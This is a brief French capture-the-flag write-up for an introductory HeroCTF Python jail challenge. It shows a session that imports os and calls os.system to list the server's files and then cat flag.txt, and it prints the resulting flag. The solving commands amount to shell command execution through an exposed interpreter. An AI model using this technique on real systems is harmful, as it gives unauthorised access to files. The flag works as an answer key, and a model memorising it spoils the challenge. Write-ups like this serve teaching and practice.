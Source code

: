 Ce challenge est une introduction aux PyJails.

Pour ce challenge, vous êtes libres d'utiliser ce que vous voulez !
Par exemple :
```python
Enter your code below:
import os
os.system('ls')
EOF
entry.sh
flag.txt
programs
shell.py
=============== END =================
Enter your code below:
import os
os.system('cat flag.txt')
EOF
HeroCTF{os_sh0uld_b3_dis4bl3d_by_4dmin}
```
HeroCTF{os_sh0uld_b3_dis4bl3d_by_4dmin}
